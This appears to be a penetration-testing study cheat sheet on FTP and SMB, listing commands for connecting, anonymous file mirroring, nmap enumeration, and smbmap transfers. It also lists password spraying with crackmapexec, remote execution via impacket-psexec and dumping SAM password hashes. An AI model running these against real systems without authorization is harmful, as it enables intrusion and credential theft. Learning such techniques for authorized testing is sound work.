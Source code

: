 # FTP

Port 21 by default.

Command to connect: 
	`ftp -p IP`

Common commands such as `cd` and `ls` and allows us to download files using the `get` command.

For example: 
	`get file.txt`

Upload a file: 
	`put file.txt`

Download all available files: 
	`wget -m --no-passive ftp://anonymous:anonymous@IP`

Service interaction: 
	`nc -nv IP 21`, `telnet IP 21`

Openssl:

```shell-session
openssl s_client -connect IP:21 -starttls ftp
```


# SMB (Samba)

 Some SMB versions may be vulnerable to RCE exploits such as EternalBlue.
 
 Nmap has many scripts for enumerating SMB:
 
```
nmap --script smb-os-discovery.nse -p445 IP
```

```
nmap -A -p445 IP
```

Samba status: 
	`smbstatus`

Download a file: 
	`smbmap -H 10.10.10.10 --download "file\file.txt"`

Upload a file: 
	`smbmap -H 10.10.0.10 --upload test.txt "file\test.txt"`

Password spraying: 
	`crackmapexec smb 10.10.10.3 -u /tmp/userlist.txt -p 'password'`

Connect to smb: 
	`impacket-psexec administrator:'password'@10.10.10.10`

Extract hashes: 
	`crackmapexec smb 10.10.10.17 -u administrator -p 'password' --sam`
